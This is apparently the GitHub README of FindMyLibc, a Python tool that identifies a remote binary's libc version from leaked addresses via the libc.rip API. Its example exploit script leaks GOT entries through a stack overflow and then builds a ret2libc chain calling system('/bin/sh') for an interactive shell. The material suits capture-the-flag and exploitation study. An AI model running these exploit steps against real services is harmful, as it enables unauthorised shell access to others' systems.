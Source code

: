 # FindMyLibc
You're exploiting a binary, you've found an address leak, now you need the libc version  
and most importantly, the addresses of symbols like `system` and `str_bin_sh`.

**This tool is the easiest to setup & use!**  
The shortest path to victory 🏆

## Disclaimer
This was tested only on 32-bit binary, so it might not work properly on 64-bit binaries.  
Would be updated!

# Setup
Download this repo:  
```
git clone https://github.com/omrina/FindMyLibc.git
```  
Then just import:  
```
from FindMyLibc import *
```    
And use the only function you need:
```
matching_libc = find_libc(elf, leak_libc_address)
```  

See below the example.

# Example
Here's a simple example of exploit script (see [`./example.py`](https://github.com/omrina/FindMyLibc/blob/main/example.py)).

### Setup your binary exploit script:
Whatever you need...
```
from pwn import *
from FindMyLibc import *

# Setup your binary
elf = ELF("./elf_name")
host = args.HOST or 'localhost'
port = int(args.PORT or 5555)
io = connect(host, port)
```

### We need to set up a "leak address" function:

```
# Payload until right before the return address
payload = b'A' * 512 + b'BBBBCCCCDDDD'

# Example function that gets a symbol name and leaks its address from the binary
def leak_libc_address(symbol_name):
    libc_symbol_address = elf.got[symbol_name]
    puts = elf.symbols["puts"]

    io.recvline()
    io.send(payload + p32(puts) + p32(libc_symbol_address))
    received = io.recv()

    return u64(received.ljust(8, b"\x00"))
```
### Now the real deal:
```
# call `find_libc`, it returns a list of matching libc candidates.
matching_libc = find_libc(elf, leak_libc_address)
chosen_libc = matching_libc[0]

# Each libc candidate comes with the attribute of `base_address`
print("libc base_address at: %s " % hex(chosen_libc['base_address']))

# Everything you need is probably in `syms`,
# a dictionary of ALL the libc symbols: {symbol: calculated_address}
binsh_address = chosen_libc['syms']['str_bin_sh']
system_address = chosen_libc['syms']['system']
print("/bin/sh at: %s" % hex(binsh_address))
print("system at: %s " % hex(system_address))
```

The output from `./example.py`:

![image](https://github.com/user-attachments/assets/dfd95d72-e202-4d59-9e44-fcfd4d01eccd)


What is `chosen_lib`:

![image](https://github.com/user-attachments/assets/06ff78eb-f59b-4ba6-b199-079e0e091781)

### How do we use the results:
You would probably need only `syms`, each value is the integer of the calcualted address, so you can use it like:
```
shell_rop = p32(system_address) + b'EEEE' + p32(binsh_address)
io.send(payload + shell_rop)
io.interactive()
```

# How does it work?
The finder leaks the address of common symbols:  
`_common_symbols_to_leak = ['__libc_start_main', 'puts', 'printf', 'gets', 'read', 'write', 'send', 'recv']`  
Then it makes reqeusts to the public `https://libc.rip/api/find'`, with different combination of leaked symbols every time.  

E.g.- we send a request with `{'puts': 'leaked-address-of-puts', 'gets': 'leaked-address-of-gets'}`.  
A response would be a list of matching libc versions metadata (each item is like a part of `chosen_lib` seen earlier).

## The `stop_libs_amount` argument
The `find_libc` function has a `stop_libs_amount` argument with default of `3`,  
meaning- if we reach 3 matching libc versions, it's enough and we stop searching.  

You can change it if you'd like to:  
`matching_libc = find_libc(elf, leak_libc_address, stop_libs_amount=2)`


